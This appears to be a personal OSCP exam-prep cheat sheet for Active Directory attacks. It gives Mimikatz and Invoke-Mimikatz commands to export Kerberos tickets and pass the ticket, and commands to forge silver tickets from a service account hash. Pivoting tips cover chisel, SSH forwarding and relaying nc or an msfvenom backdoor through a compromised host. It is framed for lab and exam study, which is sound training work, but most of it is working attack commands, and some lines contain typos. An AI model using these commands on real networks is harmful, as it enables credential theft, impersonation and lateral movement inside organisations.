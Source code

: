 ## Pass the ticket 1
1. `.\mimikatz.exe` or `import-module .\invoke-mimikatz.ps1`
2. Export .kirbi file (with latest timestamp) to the working directory folder: `export Kirsekurlsa::tickets /export` or `Invoke-Mimikatz -Command '"Mimikatz::debug" "sekurlsa::tickets /export" "exit"'`
3. Finds the newly exported file int he working directory folder: `dir *.kirbi`
4. Pass the ticket: `mimikatz # kerberos::ptt *[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi*` or `invoke-mimikatz -Command '"Mimikatz::debug "kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi" "exit"'
5. To list and show all the cached TGT and TGS tickets that you have: `klist`**

## Silver ticket
- Exploitation mimikatz.exe
```
kerberos::purge
kerberos::list
kerberos::golden /user:<user> /domain:<domain> /sid:<sid> /target:<hostname.domain> /service:HTTP /rc4:<service_account_password_hash> /ptt
```
or
```
Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain> /sid:<domainsid> /target:<dc>.<domain> /service:HOST /rc4:<machine_account_hash> /user:Administrator /ptt"'
kerberos::list
```

## Pass the ticket 2
1. Use Rubeus instead of mimikatz

2. 

## Use when trapped
- https://github.com/drak3hft7/Cheat-Sheet---Active-Directory
- https://www.netwrix.com/attack.html
- https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet

## Pivoting
- Use chisel for AD to pivot into internal network.
- For port forwarding local/remote ssh port forward is the key!
- Double pivoting is not required in the exam.

- OSCP B set tips: Double pivoting is not required in the exam. At least it wasn’t there for my exam set. Still people say OSCP B requires double pivoting while I simply did the set using other tricks; transfer nc to your first pivot and the next target (or a msfvenom backdoor) capture it on the middle machine. See you can spend hell lotta time setting up double pivot and it may or may not work according to the firewall rules and so. So think out of the box. The catch with the oscp B set is you can’t directly transfer the files to ms02 you need to abuse a running webserver on 01.
